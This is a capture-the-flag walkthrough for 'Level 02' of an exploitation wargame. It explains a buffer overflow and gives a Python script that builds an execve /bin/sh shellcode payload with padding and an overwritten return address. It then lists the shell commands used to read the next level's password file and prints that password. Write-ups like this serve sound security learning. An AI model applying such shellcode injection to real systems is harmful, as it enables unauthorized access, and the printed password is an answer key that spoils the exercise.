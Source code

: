 # Level 02 Walkthrough

## Binary analysis

The binary is vulnerable to a classic buffer overflow. We need to inject shellcode and overwrite the return address to jump to a writable memory location (e.g., .bss section).

## Exploitation

1. Find the offset to EIP (80 bytes).
2. Find a writable address to jump to (e.g., using gdb or ltrace on strdup).
3. Generate a payload with shellcode, padding, and the target address.

Python script to generate the payload:
```python
offset = 80
shellcode = b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
padding = b"A" * (offset - len(shellcode))
eip = b"\x08\xa0\x04\x08"  # 0x0804a008 (writable address)
chunk = shellcode + padding + eip
with open('payload.txt', 'wb') as f:
    f.write(chunk)
```

## Commands used

```
python3 exploit.py
(cat /tmp/payload.txt; cat) | ./level2
ls
cat /home/user/level3/.pass
```

## Result

After running the exploit, we get a shell as level3 and can read the password:

```
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Copy the password for the next level. 